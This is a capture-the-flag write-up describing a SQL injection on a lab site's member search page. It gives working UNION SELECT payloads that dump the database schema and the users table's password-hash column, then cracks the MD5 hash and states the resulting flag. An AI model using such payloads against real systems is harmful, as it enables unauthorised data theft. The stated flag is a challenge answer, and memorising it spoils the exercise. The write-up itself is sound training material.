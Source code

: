 # SQL injection
The member search page allows SQL injection.
http://192.168.99.100/?page=member

Searching for user ID 5 returns the following: `First name: Flag \n Surname: GetThe`. ID 4 and 6 don't exist.

Putting the following query in the member search input will get us the DB schema:
`1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
This reveals that the users table has the following columns:
user_id, first_name, last_name, town, country, planet, Commentaire, countersign

The following query will reveal something about GetThe Flag (the second query needs to have exactly 2 columns):
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM users WHERE 1=1`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+WHERE+1%3D1&Submit=Submit#
Commentaire: `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
countersign: `5ff9d0165b4f92b14994e5c685cdce28`
Looks like hex but that only returns garbage. Paste into Google and you get a few results for reverse MD5 hashes. It decodes as `FortyTwo`.
https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28

sha256(`fortytwo`) =>
Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
